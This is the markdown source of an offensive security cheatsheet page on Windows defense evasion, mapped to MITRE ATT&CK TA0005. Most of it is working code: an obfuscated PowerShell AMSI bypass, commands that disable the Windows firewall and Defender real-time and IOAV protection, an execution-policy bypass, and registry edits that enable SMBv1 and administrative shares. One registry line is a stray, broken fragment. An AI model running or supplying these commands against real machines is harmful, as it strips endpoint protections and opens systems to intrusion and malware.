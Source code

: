 ```yaml
---
layout: post
title: evasion / win
category: evasion
parent: cheatsheets
modified_date: 2023-03-16
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [enum](#enum)
* [enum-fw](#enum-fw)
* [Enabling Powershell](#EnablingPowershell)
* [Disabling Windows Defender](#DisablingWindowsDefender)
* [T1112 - Modify Registry](#T1112-ModifyRegistry)
* [sources](#sources)
	* [Evasion AV 101 by S3cur3Th1sSh1t](#EvasionAV101byS3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='amsi'></a>amsi 
```powershell
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 ```

## <a name='enum'></a>enum
[dinvoke](https://hack.technoherder.com/dinvoke/)

* [palo cortex xdr](/edr/defeva#win-xdr)
* [windows defender]/edr/defeva#win-defender)

## <a name='enum-fw'></a>enum-fw
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='EnablingPowershell'></a>Enabling Powershell
```
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage
```

## <a name='DisablingWindowsDefender'></a>Disabling Windows Defender
```powershell
# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```


## <a name='T1112-ModifyRegistry'></a>T1112 - Modify Registry
```powershell
# win10 tampering: PS enable SMB v1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 1 –Force

# win10 tampering: PS allow administrative shares
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Value 1 
```

## <a name='sources'></a>sources 
### <a name='EvasionAV101byS3cur3Th1sSh1t'></a>Evasion AV 101 by S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

